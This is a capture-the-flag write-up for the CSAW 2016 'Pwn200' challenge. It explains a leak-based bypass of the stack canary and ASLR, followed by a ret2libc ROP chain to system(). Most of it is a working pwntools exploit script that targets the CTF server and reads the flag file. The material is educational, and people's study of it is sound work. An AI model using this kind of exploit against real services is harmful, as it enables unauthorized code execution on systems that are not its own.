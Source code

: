 ```yaml
---
title: CSAW CTF Qualification Round 2016 - Tutorial - Pwn200 - Writeup
---
```



Hello,

In this task we were given a binary file with NX activated, Canary present and ASLR enabled on the remote server.

The first function prints the address of puts function in libc. (-0x500).

The second function prints the canary and a part of a stack address (4 bytes).

With Libc given in addition to all these leaked informationwe can rebuild the process layout in memory and build our payload.

Below is the exploit I wrote to pwn the service, the script process as follows:


- Leak puts() address.
- Calculate system() address.
- Leak Canary value.
- Leak a Stack address.
- Calculate the receive buffer address.
- Place the command to be executed in recieve buffer.
- Place the canary
- ROP to system with recieve buffer address as argument.
- Put all together
- Enjoy !

<!--more-->
  
My exploit:

```python
from pwn import *
from struct import pack
from struct import unpack
import time


r = remote("pwn.chal.csaw.io", 8002)

r.recvuntil(">")
r.send("1\n")

r.recv()
puts =  int(r.recv()[:14],16) + 1280

print "[+] @puts : %x"%puts
r.send("2\n")

print r.recvuntil(">")

r.send("A"*310+"\n")
stack = r.recv()
print stack.encode("hex")
canary = stack[312:312+8]

print "[+] canary = "+canary.encode("hex")

print r.recvuntil(">")
r.send("2\n")

print r.recv()
print r.recv()


stackadd = 0x7ffc00000000 | unpack("I",stack[-4:])[0]

print "[+] stack add %x" %stackadd

#calc system address
libc = ELF('libc-2.19.so')
#libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
puts_libc =  libc.symbols['puts']
print "[+] @puts in libc : %x"%puts_libc
deltasystem = libc.symbols['system'] - puts_libc
#deltasystem = -170752
print "[+] delta system: "+ str(deltasystem)

system = pack("<Q", puts + deltasystem)

print "[+] @system: %x"%(puts + deltasystem)

recvbuf = stackadd - 368
print "[+] recvbuf: %x"%recvbuf

junk = pack("<Q", 0xdeadbeef)
pop_rdi = 0x4012e3
#pop_rdi = 0xdeadbeef

cmdadd = pack("<Q",recvbuf + 64)

#all together
cmd = "D"*64
cmd +="cat flag.txt 1>&4 2>&4"+   "\x00"
payload = cmd+"C"*(312-len(cmd))+canary+"A"*8+pack("<Q",pop_rdi)+cmdadd+system+junk+"\n"
r.send(payload)
print r.recv()
print r.recv()
#r.interactive()

```

Cheers !
